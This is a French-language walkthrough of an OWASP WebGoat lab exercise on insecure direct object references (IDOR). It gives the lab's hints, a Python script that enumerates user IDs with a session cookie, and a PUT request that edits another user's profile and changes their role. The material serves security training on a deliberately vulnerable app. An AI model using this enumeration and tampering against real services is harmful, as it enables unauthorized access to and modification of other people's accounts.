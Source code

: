 5.  
![Hint](images/wiki_owasp_webgoat/hint.png) The default request here won't work at all, so you will need to manually craft the request or tamper it with a proxy  
![Hint](images/wiki_owasp_webgoat/hint.png) You will likely need to 'fuzz' to try different values for the userId at the end of the Url  
![Hint](images/wiki_owasp_webgoat/hint.png) Try incrementing the id value. It's not a simple +1, but it's also not too far off  
![Hint](images/wiki_owasp_webgoat/hint.png) For editing the other user's profile, you will need to use the proxy or manually craft the request again  
![Hint](images/wiki_owasp_webgoat/hint.png) To edit the other user's profile, you will use the same Url you did to view the other user's profile  
![Hint](images/wiki_owasp_webgoat/hint.png) To edit, You will need to change the method, what is the RESTful method used for 'update' or 'edit'?  
![Hint](images/wiki_owasp_webgoat/hint.png) You will also need the body of the request (will look something like the profile)  
![Hint](images/wiki_owasp_webgoat/hint.png) The request should go to ... /WebGoat/IDOR/profile/{Buffalo Bills Id}  
![Hint](images/wiki_owasp_webgoat/hint.png) Your payload should look something like ... {"role" : 1,"color" : "red","size" : "small","name" : "Tom Cat","userId" : "2342388"}

**View Another Profile**:  
Le script ci-dessous permet de _fuzzer_ l'URL trouvée dans l'exercice précédent pour trouver un autre profil. On en trouve un ayant pour **id** 2342388.

```python
import requests  
  
def idor_5():  
     index = 2342300  
  
     headers = {  
         'Cookie': COOKIE,  
     }  
  
     while True:  
         r = requests.get('http://192.168.99.100:8080/WebGoat/IDOR/profile/{}'.format(index), headers=headers)  
  
         if r.status_code != 500 and index != 2342384:  
             print("Index: {}".format(index))  
             return  
         index += 1  
  
idor_5()
```

**Edit Another Profile**:  
Envoyer une requête PUT vers http://192.168.99.100:8080/WebGoat/IDOR/profile/2342388 avec pour en-tête `Content-Type: application/json` et pour corps `{"role":1, "color":"red", "size":"large", "name":"Buffalo Bill", "userId":2342388}`
